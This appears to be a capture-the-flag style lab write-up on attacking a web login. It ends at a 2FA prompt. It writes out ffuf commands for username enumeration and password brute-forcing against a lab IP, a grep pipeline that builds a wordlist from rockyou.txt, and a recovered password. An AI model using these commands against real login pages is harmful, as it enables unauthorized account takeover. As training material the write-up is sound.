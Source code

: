 # 🚘 Skills Assessment

First i create an account:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i connect to admin panel:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I created 2 accounts, felix and felix1 to look at some differences:

and i saw the following:

cookie of felix: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

\---------- felix1: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok after a bit of messing arounf i find the path

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found user gladys

now let's create a custom wordlist according to password policy:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '{12}' > custom_wordlist.txt
```

Now we bruteforce:

```
ffuf -w custom_wordlist.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>dWinaldasD13</p></figcaption></figure>

Now with the creds, let's connect, we can see 2FA:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1360).png" alt=""><figcaption></figcaption></figure>
